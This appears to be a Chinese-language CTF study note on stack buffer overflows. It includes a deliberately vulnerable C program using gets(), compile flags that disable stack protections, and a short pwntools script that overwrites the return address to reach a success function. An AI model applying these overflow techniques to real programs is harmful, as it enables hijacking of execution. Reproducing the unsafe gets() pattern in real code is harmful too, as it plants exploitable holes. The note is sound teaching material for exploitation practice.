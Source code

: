 - 程序向栈中某个变量中写入的字节数超过变量本身所申请的字节数，导致与其相邻的栈中的变量的值被改变
- 这种问题是一种特定的缓冲区溢出漏洞，类似的还有堆溢出，bss 段溢出等溢出方式
- 栈溢出漏洞轻则可以使程序崩溃，重则可以使攻击者控制程序执行流程

发生栈溢出的基本前提：

1. 程序向栈上写入数据
2. 写入数据的大小没有被良好控制

```bash
gcc -m32 -fno-stack-protector -no-pie stack_example.c -o stack_example
-m32 生成32bit程序
-fno-stack-protector 不开启堆栈溢出保护，即不生成 canary
-no-pie 不开启PIE(Position Independent Executable)，避免加载基址被打乱
```

```c
// 简单示例 stack_example.c // gcc -m32 -fno-stack-protector -no-pie stack_example.c -o stack_example
// 这一例子属于 ret2text
#include <stdio.h>
#include <string.h>
void success() { puts("You Hava already controlled it."); }
void vulnerable() {
  char s[12];
  gets(s);
  puts(s);
  return;
}
int main(int argc, char **argv) {
  vulnerable();
  return 0;
}
```

```bash
$ checksec example
[*] '/home/kali/CTF/pwn/example'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

- IDA中vulnerable函数的栈显示如下：

```assembly
-00000014 s               db 16 dup(?)            ; string(C)
-00000004 var_4           dd ?
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
+00000008
+00000008 ; end of stack variables
```

```python
# coding=utf8   # 这个脚本执行后效果：可以看到 You Hava already controlled it. 字样，是success函数的输出
from pwn import *
# 构造与程序交互的对象
sh = process('./example')
success_addr = 0x08049172 # 这个是在IDA中分析得到的success函数的地址
# 0x14字节对应字符串s和var_4 # 4个b对应保存的寄存器s # 然后紧跟的就是success函数地址 用于覆盖原本的函数返回地址
payload = b'a' * 0x14 + b'bbbb' + p32(success_addr) # 构造payload 
sh.sendline(payload) # 向程序发送字符串
sh.interactive() # 将代码交互转换为手工交互
```
